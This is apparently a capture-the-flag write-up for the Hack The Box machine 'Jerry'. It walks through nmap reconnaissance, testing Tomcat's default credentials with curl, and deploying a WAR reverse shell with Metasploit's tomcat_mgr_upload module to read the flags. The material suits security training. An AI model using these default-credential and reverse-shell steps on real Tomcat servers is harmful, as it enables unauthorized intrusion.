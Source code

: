 # Jerry

## Recon

As usual, being with an `nmap` scan of the target:

```
$ sudo nmap -A -T4 -p- 10.10.10.95 -oN nmap_scan.txt
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 12:38 EDT
Nmap scan report for 10.10.10.95
Host is up (0.13s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1
open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows
Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2
(91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1
(86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows
Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows
Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or
Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   133.70 ms 10.10.14.1
2   136.51 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 185.21 seconds
```

The scan shows us that the target is running an Apache Tomcat webserver on port
8080. 

Let's check it out:

![landing page](./screenshots/landing_page.png)

A default Apache Tomcat landing page. I viewed the source code with Ctrl+U, but
did not see anything interesting. 

When clicking on the "Manager App" button, you are prompted with a login panel.
I guessed admin for both the username and password, and was redirected to a 403
access denied page:

![403](./screenshots/access_denied.png)


The error message gives an example username and password of `tomcat` and
`s3cret` respectively. Perhaps these are the correct credentials? I tried to log
back into the manager application, but the server automatically took me to the
403 page without a chance to login. 

I read the man page for `curl` and devised the following method to test login
credentials:

```
$ curl http://10.10.10.95:8080/manager/html -I                 
HTTP/1.1 401 Unauthorized
Server: Apache-Coyote/1.1
Cache-Control: private
Expires: Thu, 01 Jan 1970 02:00:00 EET
WWW-Authenticate: Basic realm="Tomcat Manager Application"
Content-Type: text/html;charset=ISO-8859-1
Transfer-Encoding: chunked 
Date: Sun, 28 Mar 2021 00:20:13 GMT
```

**^Note the "401 Unauthorized" response!**

```
$ curl http://10.10.10.95:8080/manager/html -u tomcat:s3cret -I
HTTP/1.1 403 Forbidden
Server: Apache-Coyote/1.1
Cache-Control: private
Expires: Thu, 01 Jan 1970 02:00:00 EET
Content-Type: text/html;charset=ISO-8859-1
Transfer-Encoding: chunked
Date: Sun, 28 Mar 2021 00:20:30 GMT
```

**^Note the "403 Forbidden" response!**

Now that we know the correct username and password, let's check metasploit for
an exploit module.
 
## Exploitation

I Google searched for "Apache Tomcat 7.0.88 vulnerabilities" and found a
[metasploit exploit module from
Rapid7](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_deploy/).

It uses a HTTP PUT request to upload a WAR reverse shell payload to the exposed
"manager" application on the web server.

I used to "tomcat_mgr_upload" module instead of the deploy one.

Below is a screenshot of my configured options:

![options](./screenshots/options.png)

With everything in place, time to exploit this machine! Enter `run` or `exploit`
to get a meterpreter prompt.

## Flag Finding

Both the user and root flags can be found by poking around the various
directories. No privilege escalation is needed here.

The flags are located in "Administrator/Desktop/flags/2 for the price of 1.txt"

```
meterpreter > cat Administrator/Desktop/flags/"2 for the price of 1.txt"
```


